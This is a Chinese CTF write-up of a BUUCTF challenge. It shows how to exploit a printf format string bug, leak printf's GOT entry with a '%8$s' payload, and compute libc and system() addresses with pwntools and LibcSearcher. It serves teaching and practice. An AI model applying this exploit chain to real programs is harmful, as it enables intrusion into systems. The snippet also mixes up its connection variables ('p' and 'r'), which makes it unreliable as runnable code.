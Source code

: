 ### Printf 指定地址泄露 Libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dcf10e88c538a9b5c28a9a.png)

在第 25 行明显存在一个格式化字符串漏洞

![](https://pic1.imgdb.cn/item/67dcf4fd88c538a9b5c28e14.png)

首先调试程序找找偏移

可以看到偏移是 8，但是没有补全

![](https://pic1.imgdb.cn/item/67dcfcfa88c538a9b5c29920.png)

前面还要加个字符补全才是

![](https://pic1.imgdb.cn/item/67dd03e688c538a9b5c2a9be.png)

由此可以泄露 libc 版本

```python
# 'A'  是用来补位的，这样后面的 printf 函数的 got 表地址就会在栈上相对距离为 8 的位置
# %8$s  利用格式化字符串漏洞的 %8$s 去泄露出栈上相对距离为 8 的地址上的值
# 'B'  相当于标记位，下面在接收数据的时候，接收到字符 'B',后面跟着的就是我们泄露出来的函数地址
payload = b'A' + p32(printf_got)+ b'B' + b'%8$s'
```

完整 payload 如下（后续 getshell 部分参考 2.4）

```python
payload = b'A' + p32(printf_got)+ b'B' + b'%8$s'

p.sendafter("Please tell me:", payload)

p.recvuntil('B')
printf_addr = u32(r.recv(4))

libc = LibcSearcher('printf', printf_addr)
libc_base = printf_addr - libc.dump('printf') 
system = libc_base + libc.dump('system')
```

